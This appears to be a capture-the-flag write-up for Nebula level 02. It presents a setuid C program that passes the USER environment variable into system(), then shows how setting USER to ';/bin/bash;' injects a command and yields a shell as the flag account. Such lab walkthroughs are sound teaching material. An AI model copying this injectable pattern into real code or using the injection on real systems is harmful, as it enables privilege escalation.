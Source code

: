 ```yaml
---
layout: default
title: "Nebula02"
tags: Nebula
description: "Interrupting the execution flow with the command injection"
---
```



## Level 02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? To do this level, log in as the `level02` account with the password `level02`. Files for this level can be found in `/home/flag02`.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

## Getting the flag

We can see in the source code above that the program is using the `USER` global variable, and used it as an input.  
As before, the binary is located in the `/home/flag02/` directory.  

```
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo  is cool")
is cool

level02@nebula:/home/flag02$ getflag 
getflag is executing on a non-flag account, this doesn't count
```

Let's play with the `USER` variable to get the flag:

```
level02@nebula:/home/flag02$ export USER=';/bin/bash;'

level02@nebula:/home/flag02$ ./flag02 

about to call system("/bin/echo ;/bin/bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

We are using the `;` symbol to interrupt the execution flow of the application and instead of echoing the initial string the program will execute `/bin/bash`
